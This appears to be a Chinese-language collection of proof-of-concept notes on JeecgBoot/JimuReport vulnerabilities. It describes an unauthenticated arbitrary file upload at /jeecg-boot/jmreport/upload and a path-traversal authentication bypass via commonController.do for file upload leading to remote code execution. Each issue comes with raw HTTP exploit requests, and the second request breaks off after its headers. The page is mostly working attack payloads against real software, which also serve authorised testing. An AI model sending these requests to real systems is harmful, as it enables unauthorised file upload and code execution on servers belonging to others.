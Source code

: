 }  
## jeecg-boot/jmreport/upload接口存在未授权任意文件上传  
  
测试发现/jeecg-boot/jmreport/upload接口存在未授权任意文件上传，经实测发现上传接口未授权，但访问上传后的文件需要登录，即带token。  
  
POST /jeecg-boot/jmreport/upload HTTP/1.1  
  
User-Agent: Mozilla/5.0 (compatible; Baiduspider/2.0; http://www.baidu.com/search/spider.html)  
  
Accept: */*  
  
Accept-Language: zh-CN,zh;q=0.9  
  
Connection: close  
  
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryyfyhSCMs9cajzFD4  
  
Cache-Control: no-cache  
  
Pragma: no-cache  
  
Host:   
  
Content-Length: 1476  
  
------WebKitFormBoundaryyfyhSCMs9cajzFD4  
  
Content-Disposition: form-data; name="file"; filename="11111.txt"  
  
Content-Type: text/html  
  
<%! 1111>  
  
------WebKitFormBoundaryyfyhSCMs9cajzFD4  
  
Content-Disposition: form-data; name="fileName"  
  
11111.txt  
  
------WebKitFormBoundaryyfyhSCMs9cajzFD4  
  
Content-Disposition: form-data; name="biz"  
  
excel_online  
  
------WebKitFormBoundaryyfyhSCMs9cajzFD4--  
## Jeecg-commonController.do文件上传  
  
由于 /api 接口鉴权时未过滤路径遍历，攻击者可构造包含 ../ 的url绕过鉴权。攻击者可构造恶意请求利用 commonController 接口进行文件上传攻击实现远程代码执行。  
  
  
POST /jeecg-boot/api/../commonController.do?parserXml HTTP/1.1  
  
Host:  
  
Accept-Encoding: gzip, deflate  
  
Content-Length: 360  
  
User-Agent: Mozilla/2.0 (compatible; MSIE 3.01; Windows 95  
  
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarygcflwtei  
  